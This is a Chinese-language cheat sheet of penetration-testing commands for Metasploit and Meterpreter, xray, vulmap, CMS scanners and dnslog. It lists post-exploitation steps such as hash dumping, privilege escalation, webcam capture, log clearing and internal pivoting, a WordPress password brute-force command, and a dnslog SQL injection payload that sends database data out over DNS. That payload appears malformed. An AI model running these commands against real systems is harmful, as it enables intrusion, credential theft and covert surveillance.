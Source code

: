 综合框架
----------------------------------------

metasploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Terminal下msf常用命令简介
	+ 打开msf终端：``msfconsole``
	+ msf数据库初始化：``msfdb init``
	+ msf更新：``apt install metasploit framework``
	+ 将汇编指令转换成为对应的16进制机器码：``msf-nasm_shell``
- msf终端下常用命令简介
	+ 查看数msf据库连接状态,连接数据库能够优化搜索等过程：``db_status`` 
	+ 重建缓存，将模块等索引重新存入数据库：``db_rebuild_cache``
	+ 调用nmap扫描，并将扫描结果存入数据库：``db_nmap``
	+ 显示命令的帮助信息：``help [db_connect]``
	+ 搜索含有关键字的模块：``search [module]``
	+ 选择模块：``use [module]``
	+ 显示模块支持的payload：``show payload``
	+ 显示模块参数：``show options``
	+ info详情：``info``
	+ 设置取消参数：``set/unset [opt]``
	+ 设置取消全局参数：``setg/unsetg [opt]``
	+ 返回上级状态：``back``
	+ 运行攻击模块：``exploit/run``
	+ 查看当前连接会话：``sessions``
- meterpreter后渗透利用
	+ 打印当前工作目录：``pwd``
	+ 查看系统信息：``sysinfo``
	+ 查看当前目标机上运行的进程列表和pid：``ps``
	+ 调用相机拍摄照片：``webcam_snap``
	+ 运行vnc远程查看屏幕：``run vnc``
	+ 开启远程登录3389（windows）：``run post/windows/manage/enable_rdp``
	+ 截取目标主机当前屏幕​：``screenshot``
	+ 获取当前权限的用户id：``getuid``
	+ 获取system权限：``getsystem``
	+ 获取用户名与hash口令：``hashdump``
	+ 获取目标主机shell(windows环境下中文乱码的解决办法:chcp 65001）：``shell``
	+ 退出shell模式，返回到meterpreter：``Ctrl+Z``
	+ 上传一个文件：``upload``
	+ 下载一个文件：``download``
	+ 执行目标系统中的文件(-f 指定文件，-i执行可交互模式，-H隐藏窗口)：``excute``
	+ 清除日志：``clearev``
	+ 将Meterpreter放入后台(使用session -i重新连接到会话)：``background``
- meterpreter内网渗透
	+ 获取目标主机上的子网状态：``run get_local_subnets``
	+ arp扫描内网机器：``run post/windows/gather/arp_scanner RHOSTS=192.168.100.0/24``
	+ 使用autoroute模块添加到达内网的路由经session 1转发：``run autoroute -s 169.254.0.0/16 1``
	+ 查看当前的路由表：``run autoroute -p``
	+ 扫描内网存活主机：``db_nmap``
	+ 将目标主机192.168.16.59的3389转发到本地主机的7070端口：``portfwd add -l 7070 -r 192.168.16.59 -p 3389``
	+ 端口转发成功后就可以从本地端口连接rdp：``rdesktop 127.0.0.1:7070``

vulmap
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 项目地址：``https://github.com/zhzyker/vulmap``
- 安装
		::
		
			git clone https://github.com/zhzyker/vulmap.git
			pip3 install -r requirements.txt
			
- 基本用法：``python3 vulmap.py -u http://example.com``

xray
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 全局配置
	+ --config 用于指定配置文件的位置，默认加载同目录的 config.yaml
	+ --log_level 用于指定全局的日志配置
	+ ``xray_windows_amd64.exe --log_level debug --config 1.yaml webscan --url xxx``
- reverse命令
	+ 启用单独的盲打平台服务，盲打平台用于处理没有回显或延迟触发的问题
- genca
	+ 用于快速生成一个根证书，主要用于被动代理扫描 HTTPS 流量时用到
- subdomain
	+ 子域名扫描
	+ ``xray_windows_amd64.exe  subdomain --target example.com --text-output example.txt``
	+ ``xray_windows_amd64.exe subdomain --target example.com --console-ui --text-output example.txt``
- webscan
	+ 扫描web漏洞，核心功能
	+ --plugins 配置本次扫描启用哪些插件, 不再使用配置文件中的配置
		- ``--plugins xss --plugins xss,sqldet,phantasm``
	+ --poc 配置本次扫描启用哪些 POC,因为所有 POC 隶属于 phantasm 插件, 所以该参数其实是 phantasm 插件独有的配置。
		- ``--plugins phantasm --poc poc-yaml-thinkphp5-controller-rce``
		- ``--plugins phantasm --poc "*thinkphp*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*"``
		- ``--plugins phantasm --poc "/home/test/pocs/*thinkphp*" ...``
	+ 配置输入来源
		- --listen 
			+ 启动一个被动代理服务器作为输入，如 --listen 127.0.0.1:4444，然后配置浏览器或其他访问工具的 http 代理为 http://127.0.0.1:4444 就可以自动检测代理中的 HTTP 请求并进行漏洞扫描
		- --basic-crawler 
			+ 启用一个基础爬虫作为输入， 如 --basic-crawler http://example.com，就可抓取 http://example.com 的内容并以此内容进行漏洞扫描
		- --url 
			+ 用于快速测试单个 url，这个参数不带爬虫，只对当前链接进行测试。默认为 GET 请求，配合下面的 --data 参数可以指定 body，同时变为 POST 请求。
		- --raw-request 
			+ 用于加载一个原始的 HTTP 请求并用于扫描，原始请求类似上面代码框中的原始请求，如果你用过 sqlmap -r，那么这个参数应该也很容易上手。
	+ 输出方式
		- --html-output 将结果输出为 html 报告, 报告样例
		- --webhook-output 将结果发送到一个地址
		- --json-output 将结果输出到一个 json 文件中
	+ 示例
		- ``xray_darwin_amd64 webscan --plugins xss --listen 127.0.0.1:1111 --html-output 1.html``
		- ``xray_darwin_amd64 --log_level debug webscan --plugins xss,cmd_injection --basic-crawler http://example.com --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com --data "x=y" --html-output 2.html --json-output 1.json``
		- ``xray_darwin_amd64 webscan --url http://example.com/ --webhook-output http://host:port/path``

特定CMS漏洞利用
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ Joomscan
	- 介绍
		+ Joomla security scanner可以检测Joomla整站程序搭建的网站是否存在文件包含、sql注入、命令执行等漏洞。
	- 使用方法
		+ 默认检测：``joomscan -u www.example.com``
		+ 组件检测：``joomscan -u www.example.com –ec``
		+ 设置cookie：``joomscan -u www.example.com --cookie "test=demo;"``
		+ 随机UA：``joomscan -u www.example.com -r``
		+ 设置代理：``joomscan -u www.example.com --proxy http://127.0.0.1:8080``
+ wpscan
	- 插件漏洞:``wpscan --url https://www.xxxxx.wiki/ -e vp`` 
	- 主题漏洞:``wpscan --url https://www.xxxxxx.wiki -e vt`` 
	- 枚举用户:``wpscan --url https://www.xxxxxxx.wiki/ -e u`` 
	- 穷举密码:``wpscan --url https://www.xxxxxxx.wiki/ -U 'admin' -P /root/wordlist.txt``
+ Drupal enumeration & exploitation tool 
	- https://github.com/immunIT/drupwn
+ `dedecmscan <https://github.com/lengjibo/dedecmscan>`_ 织梦全版本漏洞扫描

dnslog
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用场景
	+ Sql-Blind
	+ RCE
	+ SSRF
	+ RFI（Remote File Inclusion）
- 原理
	将dnslog平台中的特有字段payload带入目标发起dns请求，通过dns解析将请求后的关键信息组合成新的三级域名带出，在ns服务器的dns日志中显示出来。
- 限制
	load_file函数在Linux下是无法用来做dnslog攻击的，因为Linux没有UNC路径(UNC路径就是类似\\softer这样的形式的网络路径)。
- 示例
	+ ``select load_file('\\\\',version(),'.dnslog地址')``

其它
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- AWVS
- goby
- Immunity Canvas
- openvas
- nessus
- `PenTesters Framework(ptf) <https://github.com/trustedsec/ptf>`_
- katoolin
	+ 自动安装所有Kali Linux工具
- `x-scan <https://x-scan.apponic.com/>`_
